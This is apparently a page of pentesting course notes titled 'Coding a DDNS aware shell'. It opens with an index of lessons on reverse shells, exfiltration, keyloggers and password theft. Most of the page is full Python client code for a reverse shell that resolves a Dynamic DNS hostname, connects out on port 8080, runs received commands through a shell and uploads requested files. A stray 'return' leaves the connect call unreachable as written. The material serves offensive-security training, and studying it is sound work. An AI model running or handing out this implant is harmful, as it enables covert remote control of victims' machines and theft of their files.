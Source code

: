 ```yaml
---
title: Coding a DDNS aware shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - ddns
  - reverse shell
---
```


# Coding a DDNS aware shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


When coding a reverse shell you don't need to hardcode the IP address of the attacker machine. Instead, you can use a Dynamic DNS server such as https://www.noip.com/. To inform this server of our attacker IP public address we will install a linux dynamic client on our kali (an agent that will do the trick).

See [noip](../noip.md) to lear how to install a linux dynamic client on the attacker machine.

After installing the agent, let's see the modification needed on the client side of the [TCP reverse shell](coding-a-tcp-reverse-shell.md).


## Client side

```python

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket
import subprocess
import os

def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while len(packet) > 0:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
    else:
        s.send('File not found'.encode())
def connecting(ip):
    s = socket.socket()
    s.connect((ip, 8080))

    while True:
        command = s.recv(1024)

        if 'terminate' in command.decode():
            s.close()
            break

        elif 'grab' in command.decode():
            grab, path = command.decode().split("*")
            try:
                transfer(s, path)
            except:
                pass
        else:
            CMD = subprocess.Popen(command.decode(), shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            s.send(CMD.stderr.read())
            s.send(CMD.stdout.read())
def main():
    ip = socket.gethostbyname('cared.ddns.net')
    print (ip)
    return
    connecting(ip)
main()

```
